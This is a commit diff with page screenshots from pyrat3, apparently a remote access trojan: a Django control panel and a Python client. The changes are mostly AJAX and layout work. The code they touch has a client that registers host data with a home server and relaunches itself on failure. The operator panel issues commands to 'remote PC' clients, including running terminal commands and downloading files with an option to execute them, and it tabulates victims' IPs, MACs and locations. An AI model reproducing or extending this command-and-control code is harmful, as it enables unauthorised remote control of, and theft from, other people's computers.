

Before and after one commit to mrachuta/pyrat3, a Django app: page /pyrat3_server/index in a window 1280 px wide. Shown: the part 149-701 px from the top of the page. Run offline with Django 3.2, Linux system fonts and the light colour scheme; tables that the repository leaves empty hold one stand-in row (values such as "Sample post").

Commit message:
Another fixes/upgrades related to AJAX requests

```diff
--- a/client/client.py
+++ b/client/client.py
@@ -101,6 +101,7 @@
     def register_at_db(self):
 
         get_status = requests.post(HOME_HOST, json=self.user_data)
+        print(get_status.json())
         status_message = get_status.json()['message']
         self.client_id = get_status.json()['client_id']
         self.home_host = f'{HOME_HOST}{self.client_id}/'
@@ -251,7 +252,8 @@
                 )
                 client.register_at_db()
                 break
-            except Exception: #as e:
+            except Exception as e:
+                print(e)
                 try_count -= 1
                 if not try_count:
                     subprocess.Popen(["python", script_path])
--- a/server/pyrat3_server/forms.py
+++ b/server/pyrat3_server/forms.py
@@ -3,8 +3,6 @@
 
 
 class ClientSendCommandForm(forms.ModelForm):
-
-
 
     client_id = forms.MultipleChoiceField(
         choices=[
@@ -20,6 +18,7 @@
         ], label='Select client(s):',
     )
 
+    # UWAGA NIE ODSWIEZA SIE LISTA
     # Otherwise, can be used ModelsMultipleChoiceField with queryset and override __init__ method in model (with
     # required=False parameter for unrequired params)
 
--- a/server/pyrat3_server/static/css/styles.css
+++ b/server/pyrat3_server/static/css/styles.css
@@ -11,7 +11,7 @@
 }
 
 .form-area {
-    height: 400px;
+    height: 200px;
     width: 100%;
 }
 
@@ -59,13 +59,13 @@
 .form-area-last-command-args-field {
     display: none;
     height: 200px;
-    width: 800px;
+    width: 700px;
 }
 
 .form-area-last-command-args-field-test {
-    display: block;
-    height: 200px;
-    width: 800px;
+    display: none;
+    /* height: 200px;
+    width: 700px; */
 }
 
 .form-area-last-command-args-field-empty {
@@ -73,6 +73,14 @@
 
 .send-command {
     display: block;
+}
+
+.ajax-status {
+    margin-top: 15px;
+    margin-bottom: 15px;
+    display: block;
+    height: 40px;
+    width: 100%;
 }
 
 .client-table {
--- a/server/pyrat3_server/templates/pyrat3_server/index.html
+++ b/server/pyrat3_server/templates/pyrat3_server/index.html
@@ -16,7 +16,13 @@
                 var command = $(this).val();
                 $("div.form-area-last-command-args-field-empty").hide();
                 $("div.form-area-last-command-args-field").hide();
+                $("div.form-area-last-command-args-field > .arg-field textarea, select").each(function() {
+                    $(this).removeAttr('required');
+                });
                 $("#form_area_" + command + "_args_field").show();
+                $("#form_area_" + command + "_args_field > .arg-field textarea, select").each(function() {
+                    $(this).attr('required', 'required');
+                });
             });
         });
     </script>
@@ -35,7 +41,7 @@
 
         </pre>
     </div>
-        <form method="POST" id="command_form">
+        <form id="command_form">
             <div id="form_area" class="form-area">
                 {% csrf_token %}
                 {{ form.non_field_errors }}
@@ -64,56 +70,56 @@
                     <label>Popup args:</label>
                     <div class="arg-field">
                         <label for="title">Title: </label>
-                        <textarea name="title" required id="title"></textarea>
+                        <textarea name="title"  id="title"></textarea>
                     </div>
                     <div class="arg-field">
                         <label for="text">Text: </label>
-                        <textarea name="text" required id="text"></textarea>
+                        <textarea name="text"  id="text"></textarea>
                     </div>
                 </div>
                 <div id="form_area_run_command_args_field" class="form-area-last-command-args-field">
                     <label>Run command args:</label>
                     <div class="arg-field">
                         <label for="terminal">Terminal:</label>
-                         <select name = "terminal" required id="terminal">
+                         <select name = "terminal"  id="terminal">
                             <option value = "True" selected>True</option>
                             <option value = "False">False</option>
                          </select>
                     </div>
                     <div class="arg-field">
                         <label for="arg0">Arg0:</label>
-                        <textarea name="arg0" required id="arg0"></textarea>
+                        <textarea name="arg0"  id="arg0"></textarea>
                     </div>
                     <div class="arg-field">
                         <label for="arg1">Arg1:</label>
-                        <textarea name="arg1" required id="arg1"></textarea>
+                        <textarea name="arg1"  id="arg1"></textarea>
                     </div>
                     <div class="arg-field">
                         <label for="arg2">Arg2:</label>
-                        <textarea name="arg2" required id="arg2"></textarea>
+                        <textarea name="arg2"  id="arg2"></textarea>
                     </div>
                     <div class="arg-field">
                         <label for="arg3">Arg3:</label>
-                        <textarea name="arg3" required id="arg3"></textarea>
+                        <textarea name="arg3"  id="arg3"></textarea>
                     </div>
                     <div class="arg-field">
                         <label for="arg4">Arg4:</label>
-                        <textarea name="arg4" required id="arg4"></textarea>
+                        <textarea name="arg4"  id="arg4"></textarea>
                     </div>
                 </div>
                 <div id="form_area_file_download_args_field" class="form-area-last-command-args-field">
                     <label>Download file args</label>
                     <div class="arg-field">
                         <label for="url">URL:</label>
-                        <textarea name="url" required id="url"></textarea>
+                        <textarea name="url"  id="url"></textarea>
                     </div>
                     <div class="arg-field">
                         <label for="d_path">Save path on remote PC:</label>
-                        <textarea name="d_path" required id="d_path"></textarea>
+                        <textarea name="d_path"  id="d_path"></textarea>
                     </div>
                     <div class="arg-field">
                         <label for="arg0">Execute:</label>
-                         <select name = "execute" required id="execute">
+                         <select name = "execute"  id="execute">
                             <option value = "True" selected>True</option>
                             <option value = "False">False</option>
                          </select>
@@ -127,10 +133,10 @@
                     <label>Upload file args</label>
                     <div class="arg-field">
                         <label for="file_path">Save path on remote PC:</label>
-                        <textarea name="file_path" required id="file_path"></textarea>
+                        <textarea name="file_path"  id="file_path"></textarea>
                     </div>
                 </div>
-                <div id="form_area_last_command_args_field" class="form-area-last-command-args-field-test">
+                <div id="form_area_last_command_args_field" class="form-area-last-command-args-field">
                     {{ form.last_command_args.label_tag }}
                     {{ form.last_command_args.errors }}
                     {{ form.last_command_args }}
@@ -141,8 +147,8 @@
         <script>
                 $(document).ready(function() {
                     console.log('sraka');
-                $('.send-command').click(function() {
-                    // e.preventDefault();
+                    $('#command_form').on("submit", function(e) {
+                        e.preventDefault();
                         console.log('sraka2');
 
                         var args_dict = {};
@@ -158,76 +164,48 @@
                         $('#form_area_' + selected_command + '_args_field select').each(function () {
                             args_dict[this.id] = this.value;
                         });
-                    // console.log(arg_dict);
+                        //console.log(arg_dict);
                         args_json = JSON.stringify(args_dict);
                         console.log(args_json);
 
                         $('#id_last_command_args').val(args_json);
+
+                        // exclude divs and inputs
+                        var datastring = $('#command_form :not(.arg-field textarea, .arg-field select)').serialize();
+                        console.log(datastring);
+
+                        $.ajax({
+                            url: 'index',
+                            type: 'POST',
+                            data: datastring,
+                        })
+                        .done(function() {
+                            $('#ajax_status').empty();
+                            $('#ajax_status').append('Żądanie AJAX z komendą ' + $('#id_last_command_0').val() + ' zostało wysłane poprawnie');
+                        })
+                        .fail(function(res) {
+                            $('#ajax_status').empty();
+                            $('#ajax_status').append('Coś poszło nie tak');
+                        });
                     });
                 });
             </script>
-    <table class="client-table">
-        <tr>
-            <th>Pos</th>
-            <th>Client id</th>
-            <th>PC UUID</th>
-            <th>Join date</th>
-            <th>MAC</th>
-            <th>OS</th>
-            <th>Name</th>
-            <th>Ext IP</th>
-            <th>Int IP</th>
-            <th>Country</th>
-            <th>Last command ID</th>
-            <!-- <th>Last command date/time</th> -->
-            <th>Last command</th>
-            <th>Last command args</th>
-            <th>Last command result</th>
-            <!-- <th>Last command result date/time</th> -->
-            <th>Ping</th>
-            <th>Status</th>
-            <th>Files</th>
-        </tr>
-        {% for client in clients %}
-        <tr>
-            <td>{{ forloop.counter }}</td>
-            <td>{{ client.client_id }}</td>
-            <td>{{ client.pc_uuid }}</td>
-            <td>{{ client.join_datetime|date:"Y-m-d H:i:s" }}</td>
-            <td>{{ client.mac }}</td>
-            <td>{{ client.os }}</td>
-            <td>{{ client.name }}</td>
-            <td>{{ client.ext_ip }}</td>
-            <td>{{ client.int_ip }}</td>
-            <td>{{ client.country }}</td>
-            <td>{{ client.last_command_id }} ({{ client.last_command_datetime|date:"Y-m-d H:i:s" }})</td>
-            <td>{{ client.last_command }}</td>
-            <td>{{ client.last_command_args }}</td>
-            <td>{{ client.last_command_result|linebreaks }}</td>
-            <!-- <td>{{ client.last_command_result_datetime }}</td> -->
-            {% with client.last_activity_datetime|timediff as ping %}
-            <td>
-                {% if ping < 16 %}
-                <span class="green">{{ ping }}</span>
-                {% elif ping < 100 %}
-                <span class="orange">{{ ping }}</span>
-                {% else %}
-                <span class="red">Offline</span>
-                {% endif %}
-            </td>
-            <td>
-                {% if client.last_command_id in client.last_command_result and ping < 16  %}
-                IDDLE
-                {% elif ping > 100 %}
-                ------
-                {% else %}
-                WORKING
-                {% endif %}
-            </td>
-            {% endwith %}
-            <td><a href="/media/{{ client.client_id }}/">FILES</a></td>
-        </tr>
-        {% endfor %}
-    </table>
+    <div class="ajax-status" id="ajax_status">
+        Brak informacji o statusie żądania AJAX.
+    </div>
+    <div id="fresh_client_table">
+        <script>
+            // Import a table with users from another file
+            $('document').ready(function(){
+                setInterval(function(){
+                    $.ajax({
+                        url: 'client_table #client_table',
+                    }).done(function(data) {
+                        $('#fresh_client_table').html(data);
+                    });
+                }, 10000);
+            });
+        </script>
+    </div>
 </body>
 </html>
--- a/server/pyrat3_server/urls.py
+++ b/server/pyrat3_server/urls.py
@@ -6,6 +6,7 @@
 
 urlpatterns = [
     url('index', views.Index.as_view(), name='index'),
+    url('client_table', views.ClientTable.as_view(), name='client_table'),
     path('api/', views.ClientList.as_view(), name='client_list'),
     path('api/<pk>/', views.ClientDetail.as_view(), name='client_details'),
     path('api/<pk>/upload', csrf_exempt(views.ClientUploadFile.as_view()), name='client_upload_file')
--- a/server/pyrat3_server/views.py
+++ b/server/pyrat3_server/views.py
@@ -32,27 +32,23 @@
     return ''.join(random.choice(chars) for _ in range(size))
 
 
-class Index(generic.ListView, generic.edit.FormMixin):
+class Index(generic.edit.FormView):
 
-    #model = Client
-    context_object_name = 'clients'
     template_name = 'pyrat3_server/index.html'
     form_class = ClientSendCommandForm
     initial = {'last_command_id': get_unique_id}
     success_url = 'index'
-
-    def get_queryset(self):
-
-        return Client.objects.all().order_by('-join_datetime')
 
     def post(self, request, *args, **kwargs):
 
         form_class = self.get_form_class()
         form = self.get_form(form_class)
         if form.is_valid():
+            #print('FORM VALID')
             for client_id in form.cleaned_data['client_id']:
-                print(form.cleaned_data)
-                print(client_id)
+                #print(form.cleaned_data)
+                #print(client_id)
+                #print(type(client_id))
                 #client = form.save(commit=False)
                 client = Client.objects.get(client_id=client_id)
                 client.last_command_id = form.cleaned_data['last_command_id']
@@ -62,7 +58,18 @@
                 client.save()
             return self.form_valid(form)
         else:
+            #print(form.cleaned_data)
             return self.form_invalid(form)
+
+
+class ClientTable(generic.ListView):
+
+    context_object_name = 'clients'
+    template_name = 'pyrat3_server/client_table.html'
+
+    def get_queryset(self):
+
+        return Client.objects.all().order_by('-join_datetime')
 
 
 class ClientList(views.APIView):
```
Also changed, not shown: server/pyrat3_server/templates/pyrat3_server/client_table.html (added, +75 -0 lines). Lines whose indentation alone changed are shown as unchanged.
